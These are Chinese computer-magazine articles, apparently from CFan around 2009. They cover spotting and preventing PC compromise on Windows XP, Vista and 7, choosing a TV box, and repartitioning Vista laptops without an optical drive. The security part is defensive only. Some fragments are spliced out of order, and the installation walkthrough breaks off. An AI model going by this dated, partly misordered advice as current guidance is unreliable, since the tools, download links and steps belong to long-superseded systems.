首先，笔者以Windows 7的“资源监视器”为例。首先按下“Ctrl+Shift+Esc”打开“任务管理器”，在“性能”页面下单击“资源监视器”，然后在弹出的“资源监视器”窗口中就可以查看CPU、内存、磁盘以及网络等硬件的资源使用情况了。如果你想知道哪个程序在疯狂地读写硬盘，那么就切换到“磁盘”页面看看各个进程的读取和写入的速度就知道了。通常，如果你没有操作电脑，那么除了“System”和杀毒软件进程外，其他程序是不会经常读写硬盘的。如果你发现有莫名其妙的进程在读写硬盘，很可能就是病毒或木马。

## 小技巧:用资源监视器轻松找出入侵者的遗留文件

如果在“资源监视器”的“磁盘”项目中有可疑的进程，你可以勾选该进程，在“磁盘活动”项下就可以看到该进程到底在读写哪些文件了。如果该进程是病毒或木马，你就可以轻松地找出它写入的文件并将其删除。

## 三、判断进程是否安全

进程指的是程序在内存中的一次运行。当Windows系统启动后，就会有30-40个(XP稍微少一些，而Vista和Win7则多一些)的进程在内存中运行着，而这些进程可能包括系统服务、应用程序、恶意程序以及木马控制程序等。

## 实战1:用好系统管理进程的利器

查看系统正在运行的进程的方法有很多，使用Windows自带的“任务管理器”是最简单也是最方便的。同时按下“Ctrl+Shift+Esc”就可以打开“任务管理器”了。点击“进程”标签即可查看到正在运行的进程列表了。

一般情况下，进程是否有问题有两个基本原则:一是仔细检查进程的文件名;二是检查其路径。由于系统启动后，常见的进程是相对固定的。有问题的进程很多时候会伪装成系统进程(命名上与系统进程一样或者相似)，这时通过文件路径来判断。

## 网络大补贴:

很多时候，判断进程是否有问题主要是靠经验，经验较少的朋友可以借助搜索引擎或者相关的知识库来判断，比如：

进程知识库:http://file.52hardware.com

系统进程信息库:http://www.dllxexe.com

## 实战2:找个管理进程的好帮手

系统内置的“任务管理器”功能相对比较简单，有时候它可能发现不了一些刻意隐藏了的进程，因此我们可以使用一些专业的进程管理工具，例如Process Explorer(下载地址为http://www.onlinedown.net/soft/31805.htm#)。

Process Explorer可以将系统的进程分为系统进程和一般进程两个大类来管理，并且以不同的颜色进行区分。其中，而svchost.exe，winlogon.exe，spoolsv.exe等都属于系统进程，以“SYSTEM”、“LOCAL SERVICE”以及“NETWORK SERVICE”等权限更高的用户来运行。“explorer.exe”下属的进程属于一般进程，以当前登录的用户名来运行。如果你在“explorer.exe”中发现了svchost.exe，那么不用说，肯定是病毒或木马冒充的。

## 小提示:

在默认状态下，Process Explorer并不显示进程的用户名，在软件界面中依次选择“查看→选择列”，在打开的对话框中勾选“用户名”，即可显示进程所属的用户名了。

## 实战3:给进程和DLL文件来一个“安全认证”

由于可以通过进程来判断系统是否存在安全问题，因此有些杀毒软件特别针对此设计了“安全认证”功能。如果真在运行的进程有问题，软件会将其标示出来，甚至可以帮你将可疑的进程找出来。笔者以“金山毒霸2009”为例。

首先，打开“金山毒霸2009”主窗口，在“安全百宝箱”页面中单击“进程管理器”工具(或者在系统任务栏上右键，选择“金山毒霸进程管理器”)。进入“进程管理器”界面，它可以像系统的“任务管理器”一样查看当前系统进程的信息。

但与系统自带的管理器相比，“进程管理器”对所有的进程进行了“可信认证”，用户可以很方便简单地发现是否有可疑的进程存在。如果发现有问题的进程，单击“找出存在风险的进程”按钮，“进程管理器”就会帮你将可疑的进程找出来，勾选该进程后单击“结束进程”即可。

另外，进程通常都不是孤立的，会加载许多DLL文件。如果你想看看有没有可疑的DLL文件，勾选“显示加载到进程中的DLL”，如果可疑则在其上右键，在弹出菜单中选择“定位文件”即可找到该DLL文件，然后将其删除即可。

## 不被入侵的秘密之防范篇

李大虾：哥们，说了这么多，口都干了，有没有可乐什么的喝喝？
王小菜：有！我去给你拿。
王小菜：给！刚才说的那些只是如何确诊是不是“肉鸡”，我想知道的重点是，怎么防止被别人抓“鸡”！
李大虾：实际上啊，防止水平不是很高的攻击者，避免电脑成为别人的“肉鸡”，其实是比较简单的，关键在于你有防范“肉鸡”的意识。

攻击者要登录远程的“肉鸡”电脑必须知道三个参数:远程电脑的IP、用户名和密码。因此，攻击者会想方设法地取得目标电脑的控制权，通常采取的手段有两种:一是让目标感染病毒或木马，二是端口或漏洞扫描。

相对而言，第一种手段比较简单，但攻击者比较被动;后一种手段则是主动出击。也就是说，电脑没有感染病毒，也可能成为“肉鸡”。因此，如果你不想让你的电脑变成别人的“肉鸡”，那么请记住以下几个要点:

## 要点1:安装杀毒软件，随时检查其是否正常工作，并及时更新病毒库。

不管是植入木马还是让目标感染病毒，这些是入侵者最为常用的入侵手段，因此杀毒软件是必不可少的，也是最基本的防护要求。当然，杀毒软件并不是万能的，但是它可以降低成为“肉鸡”的风险。

事实上，入侵者是非常痛恨杀毒软件的，许多木马或病毒入侵成功后，首先会去破坏杀毒软件，因此你还得随时检查杀毒软件是否正常工作:能不能正常升级等。另外，病毒和木马是会随时更新换代的，及时更新病毒库也非常重要。

## 要点提示:

杀毒软件有很多选择，国内的比如金山毒霸和瑞星，国外的比如诺顿、卡巴斯基、McAfee等，但不管哪一款杀毒软件都不是万能的，都存在优点和缺点。如何选择杀毒软件，要根据自己的喜好，只要你觉得好用方便就是好软件。

## 要点2:安装网络防火墙，并确保其正常工作。

对于互联网用户来说，网络防火墙是隔离你和外界的一道关口。正确启用和配置防火墙，将会使你减少很多直接面对攻击的机会。在你的系统存在未修补的漏洞时，网络防火墙可能是你的电脑安全的唯一保护软件。

这里需要提醒的是，由于Windows自带的防火墙功能相对单一，在没有进行相关设置之前，它只能拦截由外到内(即由互联网到本机)的通讯，并不能很好地阻止由内向外的访问，大部分木马或控制软件都可以轻易地逃避Windows自带防火墙的监控，因此安装一款第三方防火墙是非常有必要的。

## 要点提示:

实际上，这里所指的都是软件防火墙，而不是硬件防火墙。软件防火墙有很多种，要根据网络环境的不同选择不同的产品。不过不管怎样，笔者不建议使用功能过于单一的产品，要尽量选择一些功能完善的防火墙。

所谓功能完善，指的是除了具备对外网和局域网的访问行为的监控能力外，可以对一些危险系统行为进行监控，比如修改系统设置、修改或删除系统文件、修改注册表等。另外，许多第三方的防火墙都会自动关闭无用端口，这样可以防止别人扫描。

## 实战1:斩断局域网无故断网的黑手

目前，带有ARP欺骗功能的木马或病毒很多，如果局域网中某台电脑中了这种病毒，只要该电脑开机就会向网关发出大量的数据包，从而导致局域网通讯堵塞而断网。对于这种欺骗攻击，普通的防火墙是没有办法监控的，这时候需要专门的ARP防火墙对网关进行保护。

具有ARP防火墙的安全软件有很多，比如金山毒霸ARP防火墙、360安全卫士等。笔者以360安全卫士为例(下载地址:http://down.360safe.com/setup.exe)，对网关进行防欺骗保护可以这样设置:

打开360安全卫士的主界面，点击“实时保护”，在打开的页面中将“实时保护”标签下的“ARP防火墙”设置为“开启”。重启系统后，360安全卫士的“ARP防火墙”功能就可以运行了。这时你打开“360实时保护”的“高级设置→ARP防火墙”选项页面，在“网关及DNS保护设置”中勾选“手动设置”，然后点击“添加保护网关IP/MAC”，在弹出的界面中点击“添加网关”，输入你所在的局域网的网关IP地址后，单击“自动获取”后，再单击“确定”就可以完成设置了。

## 网络大补贴:关于ARP欺骗和ARP病毒的知识，可以参考:

ARP百科:http://baike.baidu.com/view/32698.htm

ARP病毒百科:http://baike.baidu.com/view/726493.htm

## 实战2:用金山网镖关闭3389端口方便又简单

因为3389端口属于Windows远程桌面功能的初始端口，是为了方便远程管理自己的计算机而设定的，只要3389端口开启，它就可以为任何有管理密码的人提供服务。由于这个端口属于系统服务，绝大部分攻击者都喜欢在“肉鸡”打开这一端口。为防止别人利用3389端口，我们应该用防火墙把它屏蔽掉。

这里以“金山网镖2009”为例，打开金山网镖的主界面，依次选择“工具→综合设置”，在打开的窗口中切换到“高级”项，然后在右侧勾选“启用TCP/UDP端口过滤”后，单击“添加”，然后将3389端口的远程操作设置为禁止就可以了。主要注意的是，根据协议的不同，彻底禁止需要添加两条规则。

## 要点3:及时修补系统和软件漏洞，提升系统安全性。

在Windows系统中，常被利用漏洞有两种:一是Windows系统漏洞，二是应用软件漏洞。由于应用软件漏洞的利用会受到较多的环境制约，风险通常较低;而Windows系统漏洞只要没有打上补丁，该漏洞就会一直存在，因此风险比较高。

## 要点提示:

一般情况下，漏洞在被正式公布之前，通常会被黑客利用很长时间，这就是通常说的0day攻击。因此，为了让系统能及时发现有新的Windows补丁，最好将系统“自动更新”功能打开。

另外，虽然第三方应用软件漏洞的风险较低，但是一些常用工具软件，比如Flashplayer、Realplayer、Adobe Reader、Photoshop、WinRAR、QQ、MSN、千千静听等，也可能被攻击者利用，因此时常更新软件的版本也是非常有必要的。

## 实战3:打补丁、软件更新，用360一网打尽

有时候给系统打补丁或更新软件可能会存在一些障碍，特别是非正版系统用户，或者对软件更新关注不多的朋友。针对这些情况，现在已经有很多能够将这些问题打包解决的软件了，非常简单方便，比如360安全卫士。

在安装了360安全卫士的系统上打开软件的主界面，点击“修复系统漏洞”标签进入“360漏洞修复”页面，软件会自动扫描系统是否存在漏洞，如果存在它将根据重要的等级分类，选择你需要修复的漏洞之后，单击页面下方的“修复选中漏洞”按钮即可。与系统自动更新相比，用360安全卫士修复系统漏洞有两个好处，那就是下载速度会比较快，而且支持断点续传。

另外，如果系统中常用的软件存在安全漏洞，“360漏洞修复”也可以扫描到，并且还集成了软件的升级功能。在“360安全卫士”的主界面中点击“装机必备”，在打开的“360软件管理”界面中切换到“软件升级”界面，选择你需要升级的软件，点击“升级”按钮，待下载完成后，点击下方的“安装”即可。

## 要点4:盗版系统存在风险，安装后要对其进行安全改造。

对于如番茄花园、雨林木风、龙卷风、深度技术等第三方个人或论坛改造的Windows XP，通常都是采用无人值守的方式来安装，虽然安装步骤非常简单，但是系统会存在一个致命的缺陷——管理员口令是空的，并且自动登录。也就是说，任何人都可以尝试用空口令登录你的系统。

## 要点提示:

既然知道了问题的所在，应对的方法就很简单了。依次打开“控制面板→用户账户”，在弹出的窗口中选中“Administrator”，点选“创建密码”后输入你的密码即可。建议密码使用字母和其他特殊字符的组合，长度不低于8位。

另外，如果你不希望攻击者知道的管理员账户，你还得将“Administrator”改为其他账户，在开始菜单的“运行”中输入“lusrmgr.msc”打开“本地用户和组”，在右侧窗口的“Administrator”上右键，选择“重命名”并输入一个只有你自己才知道的账户。

- 要点5:一定要小心使用移动存储设备。

现在，公众越来越频繁的使用移动存储设备(移动硬盘、U盘、数码存储卡)传递文件，于是移动存储设备就成为木马或病毒传播的重要通道，比如臭名昭著的“熊猫烧香”、“U盘寄生虫”和“磁碟机”等都是属于此类。

## 要点提示:

由于Windows系统在默认状态下会自动运行移动存储设备，只要插入有病毒此类设备，病毒就可以感染该电脑上。对于这种被攻击的行为，最简单的做法是在插设备时后按住Shift键不松即可。不过，最好就是禁用系统的自动播放功能。以Vista系统为例，设置方法为：

依次点击“开始→运行”，输入“gpedit.msc”打开组策略编辑器，依次定位到“计算机配置→管理模板→Windows组件→自动播放策略”，在右侧窗口中双击“关闭自动播放”项目的属性并将其设置为“已启用”，并将下方的关闭对象设置为“所有驱动器”，确认设置并退出组策略编辑器，重启系统后就自动播放功能就关闭了。

另外，你还可以下载一个专门的U盘病毒免疫器(下载地址http://www.onlinedown.net/soft/74892.html)，彻底将U盘病毒拒之门外。

- 要点6:网页挂马很流行，浏览器要做好防护！

浏览不安全的网站成为“肉鸡”很重要的原因之一

一、区分什么网站安全，什么网站不安全，这对普通用户来说，是很困难的。事实上，任何一个缺少安全管理的网站都可能被黑客入侵后植入木马或病毒。因此只要浏览网页，谁都无法避免网页没有木马或者病毒，我们能做的只有尽可能地降低这种风险。

## 要点提示:

降低浏览网页的风险有很多方法，比如安装并启用可以监控网页木马的杀毒软件(几乎所有的杀毒软件都具备此功能)，尽可能使用具有拦截功能的第三方浏览器(比如傲游、GreenBrowser、世界之窗等)，而且尽量避免浏览一些灰色站点，比如色情类网站、赌博类网站等。

> 王小菜:原来，这里有这么多学问啊！看来我的防范意识太弱了，以后一定注意！那是不是做到这些就会万无一失了呢？
李大虾:显然不能了！以上绝不是安全防护的全部，只能说这是最基础和最重要的几个环节。做到这些，至少“三脚猫”的攻击者拿你没办法的。如果你还想听，改天再说！不过只是一顿宵夜别想打发我，呵呵！

图小老鼠 哈利菠菜

## 当世界的大门关闭时，我们还有电视直播！

世界的大门暂时关闭了！
这是魔兽爱好者都知道的重大新闻，在那一瞬间，他们失去了生活的“方向”，编辑部的“许三多”Refine也是如此，百无聊赖的他放弃了网络再次回到了电视节目的怀抱，但很遗憾的是，老旧的电视盒已无法承载他的热情。
“鸭子，你那有高档点的电视盒没？关服了，没事干啊！”
“有，高清的，押金1000元，硬件杀手。”
“说说，高清电视盒是啥高科技产品？”
既然作为一个伟大的系统编辑都还不清楚高清电视盒是啥，那我这里只好花点功夫，浪费下口水，介绍下电视盒的前生今世了：

## 小小盒子省了不少购买电视的银子！

熟悉电脑的朋友们对电视盒或多或少都会有一定的了解，特别是还没有置办电视机的大学生或者是单身贵族朋友们。买个电视盒接上电脑，在网络游戏玩得抽筋之余，了解一下时事新闻、欣赏一下体育实况，对业余生活算是不错的调剂。最初电视盒作为一种电脑DIY发烧友产品，价格动辄数千元，随着国内电脑迅速普及，以及电子制造业的迅猛发展，电视盒逐渐走下神坛，价格也变得越来越平易近人了，现在几百元便可以购买到不错的产品，这在以前是无法想象的。
电视盒全称电脑视频盒，是由个人电脑衍生而来，作为普通模拟电视的替代品，电视盒可以使电脑显示器得到更充分的利用，同时不会像电视机一样大模大样的占领客厅的中心地带，对个人经济和世界环保做了不可磨灭的贡献。所以虽然这个细分市场空间非常狭小，且随着数字电视的发展，国家正在逐渐关闭模拟电视频道，电视盒仍挣扎求存，更推陈出新，赢得了广大的爱拥。
从1999年第一代电视盒问世，当时仅支持640×480的分辨率，刷新频率固定在50Hz，单声道输出，适用于14、15英寸CRT显示器的孱弱指标；到现在售价仅300元左右，输出分辨率高达1920×1200及支持16：9/16：10宽屏显示的高清电视盒，这一路走来的它着实不易。
2002年世界杯是它茁壮成长的折点，在此之后，电视盒开始发力紧跟时代步伐，将电视机所具有的一些功能，如画中画、快速搜台、色彩/亮度/对比度独立调节系于一身，并加入了更加高端的视频芯片，引入了专业的逐行扫描、视频噪音抑制及运动补偿等提升技术，扩展了NICAM(数字丽音)和FM立体声调频收音机功能，可以支持双语节目或立体声节目，并对视频输入模式有一定的扩展，支持AV/色差和S端子输入，可以用来接入DVD、DV摄像机、PS2/XBOX等家庭信号源，且都实现了遥控控制和OSD图形菜单界面。

小知识：
NICAM（数字丽音）是Near Instantaneous Companded Audio multiplex的缩写词，意为“准瞬时压扩声音多路复用”，是由英国广播公司（BBG）开发研究成功的，由于其数据传输率为728Kbps，因此这种数字音频被称为NECAM-728。它具有模拟电视声音不可比拟的优点，在NICAM通道中，既可以传送立体声节目，也可以传送双语节目，还可以传送数字信息。具有传送的声音动态范围大、音质好、信噪比高、串音小等优点。这个知识点大家了解就好，简单点说就是它能为电视提供质量更高的伴音。在选购电视的时候也可以参看下相关产品是否具有该技术，如果没有的话，三思啊！

发展至今，已迈入了第四代产品线，主要表现在对数字技术的应用，可以解码数字电视和支持高清节目源。之前的电视盒实际上都需要加一个定语：“模拟”。对！都是模拟电视盒。模拟电视的接收受周围环境的影响很大，而数字电视只要信号超过接收门限，画质就非常稳定。随着数字电视在中国的迅猛发展，模拟电视的空间正一步步的被压缩，这就意味着宣告了传统电视盒的死刑。正是在这种沉重的压力下，电视盒实现了历史性的华丽转身，发展出了兼容模拟信号和数字信号的A+D双模电视盒。
简单总结一下，所谓的高清电视盒与我们平常所说的高清概念并不尽相同。由于国内数字电视信号尚未完全普及，很多厂商在宣传上都会将其标准适当予以降低，所以只要电视盒具备点对点显示(这个很重要)，具有720p、1080p指标的色差输出、支持1440×900、1680×1050、1920×1200分辨率、16:9/16:10宽屏显示，并可支持外接各类游戏设备(将显示器当电视机用)，便可称之为高清电视盒。对未能普及数字信号的区域用户来说，高清电视盒由于信号输入源的问题，用处并非很大，不过数字信号迟早会取代模拟信号，它的兴起也不过是早晚的事情。

的实际需求哦。
电脑视频卡：最早出现的电脑视频产品，它的独到之处是可以利用电脑直接进行视频录制或者编辑，将精彩的节目录下来反复玩味，所以直到现在还有一定的客户群。其缺点也很明显：硬件和驱动安装起来大费周章；机箱内的电磁干扰会降低接收的灵敏度，从而使画面质量降低；并且必须在开着主机的情况下使用。由于现在VGA电视盒的价格已经接近电视卡的水平，电脑视频卡价格优势早已不在，正日薄西山。
USB电视卡：包括Dongle（电视棒），是近几年随笔记本电脑平民化而兴起，外置与内置方式的折衷产物。它与电视卡一样需要驱动程序，一样需要开机观看，也一样有录制功能。不一样的是支持热拔插，安装携带方便，占用的电脑资源没有电视卡多，同时由于不受机箱内部的电磁波干扰，图像质量有所提升。对笔记本电脑来说是一个非常有益的补充。并且随着DVB-T和DMB-TH地面数字电视广播在国内攻城略地，更发展出了Dongle形式的A+D数模一体机，可以同时接收模拟电视和数字电视信号，彻底摆脱雪花和噪点的烦恼，正方兴未艾。
VGA电视盒：从电视卡的基础上发展起来，它内化了本来电脑负担的音视频解码工作，将电脑的软件解码改为硬件解码，因此毋需打开主机，毋需安装驱动，简单连接显示器就能使用，节能环保，并且硬件解码的稳定性比较高，对色彩的还原度更好，所以画面质量是这几种电视盒产品中最高的，已成为现在主流的电脑视频盒。美中不足的是脱离了电脑，无法实现录像功能。

## 形态不同 功能各异

经过以上的介绍，大家是不是都已经头晕目眩了呢？没办法，技术这种东西就是干涩、难懂又乏味，只要了解就好。如果有的朋友咬牙看完并记住了某些关键词，恭喜你，你将是众人之中的佼佼者，从一个“电视盒小白”完美跃升为“电视盒达人”，可为身边的人答疑解惑，但是选购技巧和它的各样形态，还要再耐心咬牙看下去，没办法，我也不想这么折磨你们，这东西虽小，亮点却很多，不要向“许三多”Refine学习哦，他已经开始掉电了。
电视盒根据用户使用的电脑，可以简单分为三个产品形态，且所具功能并不相同，选购时还要看自己

## 面对JS的忽悠我们该怎么办？

以上知识点又丰富了一下你的头脑吧，选购电视盒更加信心充足了吧！别急，还有呢，面对JS们，还应该继续看下去，因为技巧还是要学习的。

## 价格和价值

有些消费者经常会有和《大腕》中人物有同样的毛病——不求最好，但求最贵。实际上产品的价格不仅体现了产品的价值，还体现了公司的管理水平、对市场定位的预期以及追求利润的心态，是非常综合性的指标。因为电视盒产品的针对性非常强，产品的更新换代速度很快，选购时应该尽量结合自己的实际需要，只买对的，不买贵的，够用就好。

## 品牌和品质保证

经过近几年激烈的市场竞争，电视盒市场已经过渡到了战国末期，从最初的群雄并起到现在的一枝独秀。随便打开一家电子商务网站的电视盒TOP10排行榜，就会发现大多数席位都被天敏占据了，除了圆刚在电视视频卡市场还有一定地位以外，其他如品尼高等只能是万花丛中一点绿。由于出货量大，天敏的产品往往成熟度比较高，价格低廉并且品类齐全，如果不想太伤脑筋，又不想做小白鼠的话，是个不错的选择### 对输入输出设备的支持
这个主要看购买电视盒的目的，喜欢看电视的话，需要支持PAL、NTSC视频输入，喜欢看DVD和打游戏的话需要支持AV或S端子输入的机型。对高清大片有要求的话需要支持色差输入。说到这里，就讲解一下电视盒的应用：具有扩展功能的一般都是VGA电视盒，做为各类型视频、游戏设备与电脑显示器的“中转站”，将视频信号反映在显示上便是它的工作。对于只拥有一台电脑过日子的人来说，省去了购买电视机的资金，可以享受到PS2/XBOX等游戏机带来的快乐，只要正确连接好线缆，设置什么的一般由输出端进行控制，很简单，没有太多技术含量(需要注意的是所购买的电视盒必须支持点对点输出)。了解电视盒的分辨率和刷新频率和屏宽比是否能达到自己显示器的要求。CRT显示器不说了，不支持它的电视盒还挺难找。就液晶显示器而言，由于分辨率固定，并且刷新频率一般都大于60Hz，因此在选购电视盒的时候，特别了解其所能提供的分辨率与刷新频率。一般来说17英寸液晶显示器分辨率是1280×1024，常见的19英寸~22英寸宽屏液晶显示器分辨率已经达到1440×900和1680×1050了，24英寸~28英寸液晶屏的分辨率更高达1920×1200。连接液晶显示器的电视盒至少应达到60Hz以上才能正常显示画面，条件允许的话最好选择刷新频率高于75Hz的电视盒，可以最大限度的减少画面的闪烁和蠕动，保护眼睛。另外还要根据自己显示器的实际屏宽比例4:3、16:9还是16:10来选购支持的电视盒，否则可能会导致可视面积降低。

### 遥控器的选择也是非常重要的
一般厂家比较喜欢根据电视盒的大小配轻薄短小的轻触式遥控器，并且采用非常难采购到的纽扣电池。由于轻触式按键按多了手感会变差，并且纽扣电池所支撑的发射功率不够大，非得近距离瞄准射击才能遥控电视盒，严重影响用户体验，用一位用户的话说，用得都想死！

### 软件功能完善性
电视盒往往还具备一些其他的处理功能，比如说Accuview精显技术、Timeshift时光平移技术等，还有基于色彩优化的3D Motion adaptive de-interlace、3:2下拉影像修正等技术，都能有效的提升画面质量，避免模糊、色斑等不良状态，这也是选购时应该纳入考虑范畴的东西。随着国标地面数字信号标准DMB-TH的确立，广电部门对数字电视布局正在进行，对于有数字信号的区域，在选购时最好选择同时支持模拟和本地数字信号的电视盒，跟着国家既定的方针政策走绝对没错，因为模拟信号最终是会全部停播。

### 小盒子 大学问
编辑部的“许三多” Refine同志与电视盒不得不说的故事暂且就告一段落了，现在小生补充一下电视盒的工作原理：相对于电视机来说，电视卡、盒的实现原理是比较简单的，仅仅相当于电视机中的信号接收、信号解码和处理部分，它主要是由高频头、音视频解码芯片、音视频处理芯片、缓存颗粒以及一些端口服务芯片组成。

### 高频头(Tuner)
数字高频头(硅调谐器)与模拟高频头相比，它具有体积更小、功耗更低、锁频能力更强、收讯更强、抗干扰、抑杂讯等优异特点，并可内建无线FM广播立体声功能。它一般直接以芯片的方式封装在PCB上，不需要屏蔽罩。高频头的质量对于电视盒来说是决定性的，飞利浦高频头是业界公认的最好也是最贵的，频道搜索能力比较强、毋需微调，但是杂波略大。其次是LG的高频头，有些台须再微调，抗干扰性比较好。在电视盒不断降价的压力下，国产高频头芯片TN、TOL等后来居上，也取得了不俗的市场份额。

### 解码芯片(Decoder)
音频视频信号从高频头分别输出后，其中视频信号通过视频解码芯片解码后转换为数字信号，再输出到视频处理芯片将它转换为显示器能够识别的信号。音频信号则是经过音频解码芯片解码后，由音频处理芯片输出到音箱。随着电视盒电路的成熟度的提高，集成度越来越高的SoC芯片开始出现了，特别是最近艾科创新微电子自主研发的电脑电视视频处理SoC芯片ARK8118异常强大，集成了全制式数字视频解码器(Decoder)、声音处理单元、逐行处理(DeInterlace)与比例放大缩小(SCALER)、高速模拟切换开关、高性能OSD模块、高速8051MCU、高速视频DAC、数字LCD屏控制器等功能。

### 输入/输出接口
常见的一般是AV输入接口，当然高清电视盒也应具备色差输出、S端子等接口(需要注意的是，天敏独创了S端子与色差双接口设计)，做为拥有XBOX360、PS3等游戏机的玩家可以方便的通过它将爱机与显示器相连接。电源、D-Sub输出、视频输入、3.5mm的音频输入/输出，视频输出与RF有线电视接口，也必不可少，根据产品的定位及功能表现，输入/输出接口还会适当的被厂商增、减。

### 缓存芯片
足够大的缓存对发挥电视盒的性能非常重要，在进行高画质图像传输中更高容量缓存能达到更佳的处理效果，现在的主流电视盒的缓存一般采用2MB(16Mbit)配置。有了以上这些东西，小白也能变大虾了(软件组的小白筒子正在变身，怒气值到达了临界点)，面对广大同仁的热情，小编我先行告退。如对电视盒还有什么疑问的话，请继续阅读此篇文章，指望我继续说下去，没门！跑路先！

■淘宝高清达人 zhaozhao_2011

## 没有光驱的日子——系统管理员日记曝光
### IT人物日记曝光系列
“喂！你好，我刚刚买了一个超薄笔记本，没有光驱，但硬盘只有一个分区，我该怎么分呀？”每天的上班后，10点左右，是编辑部接到读者技术咨询电话最多的时候。编辑们不遗余力地帮助读者解答着各式各样的问题，但总觉得只能帮助有限的读者。能不能在网上开辟专门的区域帮读者解决问题呢？是的，CFan论坛(http://bbs.cfan.com.cn)的技术板块可以帮你。与此同时，我们在“百度知道”上也安了一个新家——知道专家。只要你登录http://tinyurl.com/cfanknow，就可以看到CFan编辑帮助网友回答的种种问题。你可以在这里提出自己的问题，当然，如果你是一个技术高手，也可以在这个平台帮助CFan的其他读者，只要你的回答数量够多、够专业，用不了多久，你就会从“初学弟子”变为“一代宗师”啦！本期的特别话题，就出自某位“一代宗师”，他在一家外资企业担任系统管理员，有着丰富的系统管理经验，就让他揭秘一下他的工作日记，与我们一起分享一下他的技术经验。

#### 非常危险！Vista分区不要用PQ
2008年9月10日，星期三，晴朗
前几天不知道公司从哪里弄来了一批笔记本电脑，领导层、销售部和技术服务部每人一台。后来得知，这批笔记本分好几个档次，普通员工的配置就比较一般了，而且只装了DOS系统，好在有个光驱，装个系统还是比较方便的。老大们的配置当然比较好了，轻薄时尚，配置好，而且预装了Vista系统，不过没有光驱。于是麻烦就来了，今天上班，一早就被人力资源部经理喊了过去，还以为发生了什么问题，结果是让我下班之后帮他的笔记本电脑重新分一下区。

实际上，绝大部分新买的笔记本电脑都是只有一个C盘，在使用电脑的过程中，如果所有的数据都只保存在一个分区内是会存在安全隐患的，因此买回来的笔记本电脑首先要做的事情就是重新分区。如果笔记本电脑有光驱，问题就比较简单了，只要用一张系统安装光盘就可以将问题解决了。但是没有光驱的笔记本电脑上就产生了难度：首先，不能将硬盘拆下来挂接到其他电脑上操作，其次，在当前系统下对系统所在分区进行操作是存在许多限制的，而且在Vista系统下，许多传统的分区软件比如Partition Magic就无法读取Vista特殊的“3+1”分区方式，因此无法正常使用。那么，有办法可以在不损坏现有数据和笔记本电脑的一键还原等功能的前提下，实现Vista的完美无损分区吗？答案是肯定的……

##### 小知识：Vista系统的“3+1”分区方式是什么？特殊在哪？
所谓“3+1”，其实就是3个主分区+1个扩展分区。在XP或更老的Windows系统中，分区方式是可以任意指定的，只要满足扩展分区数量≤1个、主分区+扩展分区数量≤4个，那么主分区和扩展分区的顺序或数量都是没有限制的。但是，当我们用Vista系统自带的分区软件或用Vista光盘给一块新硬盘分区时，如果分区数量≤3个时，那么这3个分区一定是主分区，而不会产生扩展分区；当分区数量≥4个时，前3个分区为主分区，从第4个分区开始，后面的则必定为扩展分区，而且有且仅有1个，但这扩展分区内可以建立多个逻辑分区。当然了，用户可以在其他系统中用软件对“3+1”分区方式进行调整。

##### 小提示：Partition Magic的噩梦
XP以前时代，Partition Magic几乎是无损分区工具的代言人，但如果你把它用在Vista上，就会非常危险，有人用它分区之后，出现分区丢失的惨剧。

#### 实战1:用“压缩卷”功能轻松调整分区无光驱本本
在Vista系统中，只要基本磁盘的文件格式为NTFS，那么就可以利用“卷”的压缩功能来调整分区大小。假设在一台笔记本电脑上，它的硬盘除了一个用于一键还原的隐藏分区外，系统就只有一个C盘(80GB)，现在我们要将系统分成C、D、E盘三个盘，容量大小分别为20GB、30GB、30GB等。操作步骤如下：

- 第一步:打开磁盘管理器。在桌面右键点击“计算机→管理”，在管理窗口中点击“存储→磁盘管理”，或者在用“Win+R”热键打开“运行”窗口，输入“diskmgmt.msc”打开磁盘管理器。
- 第二步:压缩C盘。右键点击目标分区，在弹出菜单中选择“压缩卷”，此时系统会计算可压缩的空间为40906MB，即原分区容量的一半，单击“压缩”，即从80GB的C盘中分区出一个40GB的“未分配”空间了。这时，如果我们再对剩下的40GB的C分区进行“压缩卷”操作，就会发现可压缩的空间为0。为了能够进一步压缩C盘，系统必须重装，当然了，对于笔记本电脑来说，这是相当简单的。
- 第三步:数据备份。在重装系统之前，一定要做好数据备份！如果数据不是太大，你可以把数据备份到U盘，如果正好没有U盘或者容量太小，那么我们可以将数据保存在刚刚分出来的40GB空间上。不过为了能够满足我们最初的分区目标，我们将40GB空间分为10GB和30GB两个分区，格式化30GB的分区并分配相应的盘符(即E盘)，接着把数据备份该分区。
- 第四步:重装系统。一般来说，笔记本电脑的“一键还原”功能会把系统装在第一个主分区(即这里的C盘)。首先重新启动笔记本电脑，按住笔记本电脑的“一键还原”键(每台笔记本电脑的设定都不太一样，具体请参考说明书)，进入系统安装界面，重新安装一遍Vista系统。系统装好了之后，进入系统并重新配置个人信息。

### 非常安全！无光驱给 Vista 装一个 XP
2008年10月8日，星期三，小雨
国庆长假过完了，上班老是提不起精神来，不知道是不是患了长假综合征，想必许多朋友也是如此，呵呵！不是说没精神么，这不，人力资源老大又来找我了，说他很不习惯 Vista 系统，感觉没有 XP 好用，让我帮他顺便装一个 XP 系统进去。对于没有光驱的本本，如何装系统还真的有点儿难度！

在Vista系统基础上安装XP系统，有两种方式：一是在保留原Vista系统的基础上安装一个XP系统，形成双系统；二是将原来的系统删除，然后再全新安装XP系统。因为Vista和XP的启动方式是完全不一样的，即使在有光驱的情况下，两个系统之间的引导都是一个非常大的问题，何况没有光驱呢？

#### 实战3:在Vista下安装XP双系统并组成双系统
根据前面的设定，我们要在一台没有光驱的安装了Vista系统的笔记本电脑上安装一个XP系统，并且实现两个系统都可以正常使用。假设该电脑上有1个系统分区C盘(20GB)和60GB未使用的空间，在C盘后面划分D、E、F三个分区，磁盘容量分别10GB、20GB、30GB，XP系统将放在D分区。在开始前我们需要准备以下5样工具：

- 一个采用Ghost方式安装的XP系统ISO镜像文件；
- 一个可以打开ISO文件的软件，比如WinRAR、UltraISO等；
- 一个Ghost32.exe命令，通常在ISO文件的“外置程序”目录中找到；或者到http://www.newhua.com/soft/37773.htm下载；
- 一个bootsect.exe命令(在任意一张Vista安装盘或镜像的boot文件夹里)，关于此命令的作用与使用方法请参考http://blog.sina.com.cn/s/blog_593e62b50100djp4.html(建议详细学习，在下文的许多地方都将用到此命令)；
- 一个编辑Vista BCD的软件，比如Vista优化大师(下载地址http://www.vista123.com/vistamaster)。

第一步：根据要求，用Vista系统下将用于安装XP的D(10GB)分区准备，然后用WinRAR打开XP系统ISO镜像文件，将里面的系统镜像文件(后缀为GHO)解压到本地(非D盘即可)。

